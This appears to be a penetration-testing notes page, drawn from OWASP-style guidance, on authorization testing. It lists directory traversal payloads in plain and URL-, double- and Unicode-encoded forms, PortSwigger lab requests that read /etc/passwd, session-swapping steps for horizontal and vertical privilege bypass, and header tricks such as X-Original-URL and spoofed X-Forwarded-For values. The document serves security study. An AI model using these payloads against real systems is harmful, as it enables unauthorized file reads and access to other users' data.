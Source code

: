 # Authorization Testing

## Directory traversal File Include

### Techniques

1. Input Vector Enumeration 
* Are there request parameters which could be used for file-related operations?
* Are there unusual file extensions?
* Are there interesting variable names?
	+ **http://example.com/getUserProfile.jsp?item=ikki.html >>**
	  `item=ikki.html >> ikki >> inject`
	+ **http://example.com/index.php?file=content >>**
	  `file=content >> content >> inject`
	+ **http://example.com/main.cgi?home=index.htm >>**
	  `home=index.htm >> index >> inject`

* In Cookie
	+ Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower 
	`>> TEMPLATE=flower >> flower >> inject`

	+ Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

		`>>PSTYLE=GreenDotRed >> GreenDotRed >> inject`


* Unix like OS: /
* Windows : `<drive letter>: , /`
* MAC OS : `<drive letter>: , :`
* URL encoding and double URL encoding :
```urlencode
%2e%2e%2f => ../ 
%2e%2e/ => ../
..%2f => ../
%2e%2e%5c => ..\
%2e%2e\ => ..\
..%5c => ..\
%252e%252e%255c => ..\
```
* Unicode/UTF-8 Encoding
```UTF
..%c0%af => ../
..%c1%9c => ..\
```
#### Practrice in PortSwigger Lab

 ```http
 GET /image?filename=../../../etc/passwd HTTP/1.1
 ```

 ![dir](./img/dir.png) 
 
 ```http
 GET /image?filename=....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd HTTP/1.1
 ```
![dir2](./img/dir2.png)

```http
GET /image?filename=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd HTTP/1.1
```
![dir3](./img/dir3.png)

```http
GET /image?filename=/var/www/images/../../../../../etc/passwd HTTP/1.1
```
![dir4](./img/dir4.png)

```http
GET /image?filename=/../../../../../../../../../../../etc/passwd.png HTTP/1.1
```
![dir5](./img/dir5.png)



## Testing for Bypassing Authorization Schema
### Horizontal Bypassing Authorization Schema 

1. Register or generate two users with identical privileges.
2. Establish and keep two different sessions active (one for each user).
3. For every request, change the relevant parameters and the session identifier from token one to token two and diagnose the responses for each token.
4. An application will be considered vulnerable if the responses are the same, contain same private data or indicate successful operation on other users’ resource or data.
5. **Use auth analyze in burpsuite**

#### Examle 
With funtion `viewSettings`
**Request**
 ```http
 POST /account/viewSettings HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=USER_SESSION

username=example_user
```
**Response**
```json
HTTP1.1 200 OK
[other HTTP headers]

{
  "username": "example_user",
  "email": "example@email.com",
  "address": "Example Address"
}
```
Try and execute that request with the same username parameter:
```http
POST /account/viewCCpincode HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=ATTACKER_SESSION

username=example_user
```
### Vertical Bypassing Authorization Schema (ttacker obtains a role higher than their own)
1. Register a user.
2. Establish and maintain two different sessions based on the two different roles.
3. For every request, change the session identifier from the original to another role’s session identifier and evaluate the responses for each.
4. An application will be considered vulnerable if the weaker privileged session contains the same data, or indicate successful operations on higher privileged functions.
5. **Use auth analyze in burpsuite**


#### Examle 
With funtion `delteEvent`
**Request**
```http
POST /account/deleteEvent HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=ADMINISTRATOR_USER_SESSION

EventID=1000001
```
Response**
```json
HTTP/1.1 200 OK
[other HTTP headers]

{"message": "Event was deleted"}
```
Try and execute the same request:
```http
POST /account/deleteEvent HTTP/1.1
Host: www.example.com
[other HTTP headers]
Cookie: SessionID=CUSTOMER_USER_SESSION

EventID=1000002
```
### Consider Administrator Page
### Access to Administrative Functions
### Special Request Header Handling
Send a Normal Request without Any X-Original-Url or X-Rewrite-Url Header.
```http 
GET / HTTP/1.1
Host: www.example.com
[...]
```
 Send a Request with an X-Original-Url Header Pointing to a Non-Existing Resource.
 ```http
 GET / HTTP/1.1
Host: www.example.com
X-Original-URL: /myprecious
[...]
```
Send a Request with an X-Rewrite-Url Header Pointing to a Non-Existing Resource.
```http 
GET / HTTP/1.1
Host: www.example.com
X-Rewrite-URL: /myprecious
[...]
```

### Other Headers to Consider
* Headers:
	- X-Forwarded-For
	- X-Forward-For
	- X-Remote-IP
	- X-Originating-IP
	- X-Remote-Addr
	- X-Client-IP
* Values
	- 127.0.0.1 (or anything in the 127.0.0.0/8 or ::1/128 address spaces)
	- localhost
	- Any RFC1918 address:
		+ 10.0.0.0/8
		+ 172.16.0.0/12
		+ 192.168.0.0/16
		+ Link local addresses: 169.254.0.0/16